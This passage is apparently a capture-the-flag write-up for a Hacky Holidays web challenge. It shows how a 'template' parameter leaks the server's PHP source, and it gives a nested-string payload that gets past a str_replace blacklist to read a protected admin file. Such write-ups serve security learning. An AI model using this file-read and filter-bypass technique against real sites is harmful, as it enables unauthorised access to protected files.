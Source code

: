 I thought it'd be a good idea to try to locate `entries.html` and see if it was publicly accessible. It turned out that `https://hackyholidays.h1ctf.com/my-diary/entries.html` was it's actual location. In that case, the `template` parameter was loading files relative to it's own directory. For that reason I tried `index.php` as a `template` value, to trick the script into providing me with it's own source code:

```php
<?php
if( isset($_GET["template"])  ){
    $page = $_GET["template"];
    //remove non allowed characters
    $page = preg_replace('/([^a-zA-Z0-9.])/','',$page);
    //protect admin.php from being read
    $page = str_replace("admin.php","",$page);
    //I've changed the admin file to secretadmin.php for more security!
    $page = str_replace("secretadmin.php","",$page);
    //check file exists
    if( file_exists($page) ){
       echo file_get_contents($page);
    }else{
        //redirect to home
        header("Location: /my-diary/?template=entries.html");
        exit();
    }
}else{
    //redirect to home
    header("Location: /my-diary/?template=entries.html");
    exit();
}
```

It worked! I now had the source code of the script. It looked like there was once an `admin.php` page, which according to a comment, had been renamed to `secretadmin.php`. Trying to hit that file directly in the browser resulted in:

```
You cannot view this page from your IP Address
```

I couldn't simply pass `secretadmin.php` as an argument to the original script to read the file, because it did a couple of string replacements on the passed parameter:

```
// ...
$page = str_replace("admin.php","",$page);
// ...
$page = str_replace("secretadmin.php","",$page);
// ...
```

So passing `secretadmin.php` would result in a value of `secret`, because of the `s/admin\.php//` replacement.

I bypassed this questionable security measure by passing a value of `secretadsecretaadmin.phpdmin.phpmin.php`.
